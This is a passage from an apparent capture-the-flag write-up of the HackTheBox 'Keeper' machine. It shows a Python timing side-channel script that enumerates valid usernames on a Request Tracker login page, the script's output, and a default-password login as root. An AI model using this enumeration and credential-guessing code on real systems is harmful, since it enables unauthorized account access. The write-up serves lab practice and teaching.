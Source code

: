 This one was fixed at 4.4.5, and most of the other one are already fixed in 4.4.4, or don't seem super useful.


## Side channel attack

Searching for `timing attack` on [ippsec.rocks](ippsec.rocks) I found [this](https://www.youtube.com/watch?v=hmtnxLUqRhQ&t=1680s) video demonstrating how to do a time based side channel attacks in python. So I wrote this script, taking inspiration from that
```python
import requests


def check_user(username):

    url = "http://tickets.keeper.htb/rt/NoAuth/Login.html"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "RT_SID_tickets.keeper.htb.80="
        "33ea3d15db846fcd0ac8006b0eb5e7c7"
    }
    payload = f"user={username}&pass=asdf"

    res = requests.post(url, headers=headers, data=payload)

    return res.elapsed.microseconds


if __name__ == "__main__":
    with open(
        "/usr/share/seclists/Usernames/"
        "cirt-default-usernames.txt",
        #"top-usernames-shortlist.txt",
        "r"
    ) as f:
        usernames = f.read()
    usernames = usernames.split("\n")

    for user in usernames:
        user = user.lower()
        time = check_user(user)
        if time > 400000:
            print(f"{time} - \x1b[32m{user}\x1b[0m")
```
```bash
python3 side-channel.py
516635 - root
522913 - root
406899 - root
```

Now that I know the root is a valid user, I just tried a few passwords, and just `password` worked
And a few seconds of poking around the portal later, we find the lnorgaard unix username and passwor

